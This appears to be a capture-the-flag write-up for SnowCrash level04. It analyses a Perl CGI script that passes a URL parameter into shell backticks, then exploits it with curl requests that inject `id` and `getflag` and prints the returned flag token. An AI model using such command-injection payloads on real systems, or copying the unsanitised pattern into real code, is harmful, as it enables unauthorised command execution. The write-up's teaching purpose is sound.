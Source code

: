 level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile

perl script 

CGI endpoints are specific scripts or programs that the server executes in response to user requests. Each time a request is made, a new process is started to run the script, which can make them less efficient for high traffic. They're versatile but considered older technology.


level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
 - this means this script should be executed with the Perl interpreter

#localhost:4747
 - script accessed via web browser at localhost on port 4747

use CGI qw{param};
 - script uses Perl's CGI module to handle Common Gateway Interface (CGI) functionality

print "Content-type: text/html\n\n";

sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}

x(param("x"));


### Security Implications
This script has a significant security vulnerability. It directly passes user input (obtained via CGI parameters) to a shell command without any sanitation or validation. This practice can lead to command injection vulnerabilities, where an attacker could provide specially crafted input to execute arbitrary commands on the server. For example, by calling the script with the URL http://localhost:4747/level04.pl?x=$(some_malicious_command), an attacker could execute some_malicious_command on the server.

### Ensuring port 4747 is listening
level04@SnowCrash:~$ netstat -an | grep 4747
tcp6       0      0 :::4747                 :::*                    LISTEN  

### Ensurint it is vulnerable to command injections
level04@SnowCrash:~$ curl "http://localhost:4747/level04.pl?x=\`id\`"
uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)

### Replace id with getflag
level04@SnowCrash:~$ curl "http://localhost:4747/level04.pl?x=\`getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
